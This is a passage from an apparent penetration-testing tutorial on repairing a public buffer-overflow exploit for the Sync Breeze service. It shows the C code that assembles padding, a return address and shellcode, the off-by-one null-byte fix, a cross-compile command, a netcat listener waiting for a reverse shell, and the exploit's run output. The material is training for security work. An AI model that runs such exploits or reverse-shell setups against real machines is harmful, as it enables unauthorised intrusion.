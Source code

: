 This may seem confusing at first; however, continuing to read the code, we arrive at the lines where the final _buffer_ is created.
``` c
char *buffer = malloc(buffer_length);
memset(buffer, 0x00, buffer_length);
strcpy(buffer, request_one);
strcat(buffer, content_length_string);
strcat(buffer, request_two);
strcat(buffer, padding);
strcat(buffer, retn);
strcat(buffer, shellcode);
strcat(buffer, request_three);
```

The code starts by allocating a memory block for the _buffer_ character array using _malloc_, then filling the array with NULL bytes. Next, the code fills the _buffer_ character array by copying the content of the other variables through various string manipulation functions such as _strcpy_ and _strcat_.

Knowing the final buffer must be constructed as a string is very important
+ The C programming language makes use of _null-terminated strings_ meaning that functions such as _strcpy_ and _strcat_ determine the end and the size of a string by searching for the first occurrence of a NULL byte in the target character array
+ Since the allocation size of our initial padding buffer is 780, by setting the last byte to 0x00, we end up concatenating (strcat) a string of "A" ASCII characters that is 779 bytes in length. This explains the misaligned overwrite of EIP

We can quickly fix this misalignment by increasing the requested memory size defined by the _initial_buffer_size_ variable by 1
```
    int initial_buffer_size = 781;
    char *padding = malloc(initial_buffer_size);
    memset(padding, 0x41, initial_buffer_size);
    memset(padding + initial_buffer_size - 1, 0x00, 1);
```

As a final test, we will again compile the code, set up a Netcat listener on port 443 to catch our reverse shell, and, after making sure the Sync Breeze service is running on the target machine, launch the exploit
```
kali@kali:~/Desktop$ i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32

kali@kali:~$ sudo nc -lvp 443
listening on [any] 443 ...
```

Next, we will run the exploit:
```
kali@kali:~/Desktop$ wine syncbreeze_exploit.exe 

[>] Initialising Winsock...
[>] Initialised.
[>] Socket created.
[>] Connected

[>] Request sent
```
